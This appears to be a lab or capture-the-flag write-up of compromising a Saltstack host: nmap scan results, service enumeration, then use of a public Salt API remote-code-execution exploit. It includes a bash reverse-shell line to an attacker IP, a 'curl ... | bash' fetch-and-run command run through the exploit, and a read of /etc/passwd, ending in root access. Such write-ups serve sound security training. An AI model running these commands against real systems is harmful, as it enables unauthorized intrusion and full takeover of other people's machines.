





# NMAP

Open TCP Ports: 22,53,80,4505,4506,8000 192.168.181.62
```sh
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZz8rKSxgnT5mqHeBPqGlXFj2JJdq21roV/2M8/+0F5/5D1XsaXmbktDpKILFdBcYnLtPxWstxPq+FTbWAJad2uk3BPYWRxidK2dOozE5rKLCyxtkEqs/lO09pM6VKQUi83y5wMwI+9Akkir0AMruuFUSpeCIBt/L98g8OYxzyTsylQATnPxJrrQOWGUQYAvX6jIs25n6d3rmbXk/crg1ZfAVFEHEeR9Y6Bjc2o5YWjMp3XbOZyC4yYseoM6eH2yCSDwu1DzPYrU6cNMfxBf863w1uyhiFk3eIb5jud3kfoxIq6t5JU2DXNhEd4rdXuuinZUSxWiCpHLZ1FCi4tkX5
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA1gj1q7mOswnou9RvKwuX8S7WFBhz2NlaSIpYPQmM0I/vqb4T459PgJcMaJOE+WmPiMnDSFsyV3C6YszM754Hc=
|   256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBzTSyInONbcDxdYULbDvI/HyrQm9m9M5b6Z825jnBEF
53/tcp   open  domain  syn-ack NLnet Labs NSD
80/tcp   open  http    syn-ack nginx 1.16.1
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
4505/tcp open  zmtp    syn-ack ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    syn-ack ZeroMQ ZMTP 2.0
8000/tcp open  http    syn-ack nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.16.1
|_http-open-proxy: Proxy might be redirecting requests
```

# Port 22
Let's find out which authentication methods are allowed for SSH on port 22.

```sh
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|     gssapi-keyex
|     gssapi-with-mic
|_    password
```

# Port 80
Whatweb Summary   : Bootstrap, HTML5, HTTPServer[nginx/1.16.1], JQuery[1.8.3], nginx[1.16.1], Script, X-Frame-Options[SAMEORIGIN]             
We see a Mezzanine cms page



# Port 4505 & port 4506
Footprinting these ports to not give myuch information. On google we find that these ports are the default ports of Salt.

>Salt is an event-driven automation tool and framework todeploy, configure, and manage complex IT systems. 

# Port 8000
WhatWeb Summary   : Allow[GET, HEAD, POST], HTTPServer[nginx/1.16.1], nginx[1.16.1], UncommonHeaders[access-control-expose-headers,access-control-allow-credentials,access-control-allow-origin,x-upstream]



When searching on google for {"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"} we come to know that this has something to do with salt rest api.


# Exploit
On exploit-db there is the exploit “Saltstacks 3000.1 Remote Code Execution” 
Let's give it a shot.

```sh
python3 48421.py  -m 192.168.156.62 -r /etc/passwd
```
 And we can read the passwd file on the target.



To gain an interactive shell we will serve a file on the attacker machine:
```sh
echo "bash -i >& /dev/tcp/192.168.45.154/22 0>&1" > shell.sh
```

We will start a listener on port 22 and serve the file on our machine. After this we execute the exploit:
```sh
python3 48421.py  -m 192.168.156.62 --exec "curl 192.168.45.154/shell.sh | bash"
```



Now we are root!
 


